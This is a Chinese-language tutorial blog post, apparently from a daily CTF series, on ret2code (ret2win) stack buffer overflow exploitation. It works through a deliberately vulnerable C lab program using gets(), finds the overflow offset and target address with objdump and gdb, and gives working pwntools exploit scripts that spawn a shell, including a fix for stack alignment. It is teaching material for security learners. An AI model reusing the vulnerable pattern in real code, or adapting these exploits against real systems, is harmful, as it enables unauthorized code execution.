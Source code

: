 ```yaml
---
title: "Day7－ret2code (ret2func)"
date: 2024-09-07
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

經過了前一天的 lab，相信大家對於 buffer overflow 的原理已經有了更多的理解。既然我們能覆蓋判斷式中的值，那麼是否也能覆蓋 return address，讓程式跳到其他位置呢？這正是我們今天要介紹的攻擊技術：ret2code，又稱為 ret2func 或 ret2win。

## 介紹

回顧之前的 stack 內容，當使用 `gets` 讀取 `buf` 字串時，可以持續覆蓋記憶體，甚至可能覆蓋到 `rbp` 和 `return address`

![image](/images/iron2024/day7_image1.png)

例如，如果我們想跳到名為 `shell` 或 `win` 的函數，可以嘗試將 stack 覆蓋成如圖所示的狀態。當程式執行到 return address 時，它就會跳轉到我們覆蓋的位置。

![image](/images/iron2024/day7_image2.png)

雖然在現實情況下，程式中不太可能直接有開啟 shell 的 function，但在一些初學者的 CTF 題目中，這類控制程式執行流程（control flow）的題目仍然存在。在進入實作之前，我們要了解這種攻擊的前提條件是：需要關閉 PIE 保護，因為我們必須知道確切要跳轉的 function 位置。

## Lab

查看以下程式原始碼：

```c
#include<stdio.h>

void shell(){
    system("/bin/sh");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char b[10];
    puts("Send me a message: ");
    gets(b);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/ret2code.c -o ./ret2code/share/ret2code -fno-stack-protector -no-pie
```

大家可以自行練習這道題目，或是繼續閱讀以下解題步驟。

## writeup

首先，我們注意到程式中存在一個 `shell()` 函數，這個函數會直接開啟一個 shell。另外，程式關閉了 Canary 和 PIE 保護，並使用了危險的 `gets` 函數來讀取輸入，因此我們可以嘗試使用 ret2code 技術跳轉到某個位置。在實作 ret2code 之前，我們需要解決以下兩個問題：

- 找出覆蓋到 return address 前所需的字元數。
- 確定 `shell()` function 的地址。

首先，找到覆蓋到 return address 前所需的字元數。我們可以使用 `objdump` 來 disassemble 程式，觀察指令 `lea rax,[rbp-0xa]`，這表示輸入的起始位置是 `[rbp-0xa]`。與前面不同的是，return address 前還有 8 個 bytes 的 `rbp`，所以需要填充的字元數是 `0xa + 0x8 = 0x12`，即 18 個字元。

![image](/images/iron2024/day7_image3.png)

另一種方法是使用 `gdb` 來驗證。我們先使用 `gdb ./ret2code` 啟動程式，然後在 `main` function 處設置中斷點，接著 `r` 執行程式，並 `ni` 逐步執行至輸入位置。此時，我們可以輸入有規律的字元，觀察覆蓋情況。例如輸入 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ`

![image](/images/iron2024/day7_image4.png)

繼續執行至 return address 處，可以看到 return address 已被覆蓋為 `0x4747464646464545`，即 `EEFFFFGG`。因此，可以確定需要填充的字元數是 `AAAABBBBCCCCDDDDEE`，共 18 個字元。

![image](/images/iron2024/day7_image5.png)

`shell()` 的 address 可以使用 `objdump` 或 `gdb` 來查找。使用 `objdump`，我們可以看到地址為 `0x401156`。

![image](/images/iron2024/day7_image6.png)

使用 `gdb` 的 `info func` 命令，也可以看到 `shell()` function 位於 `0x401156`。

![image](/images/iron2024/day7_image7.png)

現在我們可以開始編寫 exploit。我們將測試 local 端程式，輸入 `0xa + 8` 個字元，並在後面加上要修改的 return address：

```python
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401156)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

不過執行後會發生 SIGSEGV，此時可以使用 `gdb` 來追蹤問題。

![image](/images/iron2024/day7_image8.png)

將 exploit 加上 `gdb.attach()` 並使用 `tmux` 開啟另一個視窗。`gdb.attach()` 可以指定啟動時要執行的 gdb 指令，例如設置中斷點。

```python
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

gdb.attach(r,'b main')
context.terminal = ['tmux', 'splitw', '-h']

payload = b'A' * (0xa + 8) + p64(0x401156)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

在 `tmux` 中執行 exploit，並讓執行位置回到 `main` function。

![image](/images/iron2024/day7_image9.png)

此時發現程式確實跳到 `shell()`，但遇到問題：`movaps xmmword ptr [rsp + 0x50], xmm0`，提示 `not aligned to 16 bytes`。這個問題可以參考這篇[文章](https://hack543.com/16-bytes-stack-alignment-movaps-issue/)，簡單來說，某些 libc 版本要求 `rsp` 的值必須是 16 的倍數。我們可以嘗試跳轉到前一點的位置。

![image](/images/iron2024/day7_image10.png)

例如，跳轉到 `0x401157` 或其他位置進行測試。

![image](/images/iron2024/day7_image11.png)

將 exploit 改為跳轉到 `0x401157`，並移除剛剛的 `gdb` 部分。

```python
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401157)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

成功取得 shell！

![image](/images/iron2024/day7_image12.png)

接下來將題目架設起來，並連接到遠端。

完整 exploit：

```python
from pwn import *

# r = process('../ret2code/share/ret2code')
r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401157)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day7_image13.png)
